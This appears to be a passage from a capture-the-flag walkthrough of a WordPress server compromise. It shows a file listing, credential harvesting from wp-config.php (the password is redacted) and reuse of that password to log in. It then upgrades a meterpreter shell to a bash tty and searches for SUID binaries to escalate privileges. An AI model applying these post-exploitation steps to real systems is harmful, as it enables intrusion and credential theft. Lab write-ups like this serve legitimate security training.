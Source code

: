 ```
100640/rw-r-----  364    fil   2015-12-19 11:20:28 +0000  wp-blog-header.php
100640/rw-r-----  1889   fil   2018-05-02 23:11:25 +0100  wp-comments-post.php
100640/rw-r-----  2853   fil   2015-12-16 09:58:26 +0000  wp-config-sample.php
100640/rw-r-----  3279   fil   2020-05-28 04:49:17 +0100  wp-config.php
40750/rwxr-x---   4096   dir   2020-05-26 04:52:32 +0100  wp-content
100640/rw-r-----  3669   fil   2017-08-20 05:37:45 +0100  wp-cron.php
40750/rwxr-x---   12288  dir   2018-12-06 18:00:08 +0000  wp-includes
100640/rw-r-----  2422   fil   2016-11-21 02:46:30 +0000  wp-links-opml.php
100640/rw-r-----  3306   fil   2017-08-22 12:52:48 +0100  wp-load.php
100640/rw-r-----  37286  fil   2020-05-26 16:39:37 +0100  wp-login.php
100640/rw-r-----  8048   fil   2017-01-11 05:13:43 +0000  wp-mail.php
100640/rw-r-----  17421  fil   2018-10-23 08:04:39 +0100  wp-settings.php
100640/rw-r-----  30091  fil   2018-04-30 00:10:26 +0100  wp-signup.php
100640/rw-r-----  4620   fil   2017-10-23 23:12:51 +0100  wp-trackback.php
100640/rw-r-----  3065   fil   2016-08-31 17:31:29 +0100  xmlrpc.php
100644/rw-r--r--  1112   fil   2021-02-12 06:22:35 +0000  yUoHCQYKbL.php
```
It looks like we have full access to the wordpress file directory and from here we can view the config file for easy password grabbing since its stored in cleartext and not hashed.
```
// ** MySQL settings - You can get this info from your web host ** //
/** The name of the database for WordPress */
define('DB_NAME', 'blog');

/** MySQL database username */
define('DB_USER', 'wordpressuser');

/** MySQL database password */
define('DB_PASSWORD', 'L[REDACTED]');

```
NO wonder I wasn't able to crack Joels password. We know its joels because I logged into the wordpress blog using this password and his username that we enumurated from wpscan. 

```
meterpreter > shell
Process 17405 created.
Channel 1 created.
python -c "import pty; pty.spawn('/bin/bash')"

{{{{{{{{{SWITCH BACK TO YOUR MACHINE}}}}}}}}}}}

www-data@blog:/var/www/wordpress$ export TERM=xtrm 
export TERM=xtrm 
www-data@blog:/var/www/wordpress$ 


------------------------------
My Machine's terminal
stty raw -echo
```
Instead of the meterpreter I opted for a zsh shell since I can use more system commands than on a meterpretr shell (dont get me wrong their great and you should always strive for a metrpreter shell but in this case I didn't feel using it.
```

find / -perm -4000 -type f 2>/dev/null
```
This command will help us find manuplitable SUID one of the easiest ways to obtain root apart from misconfigured privlages
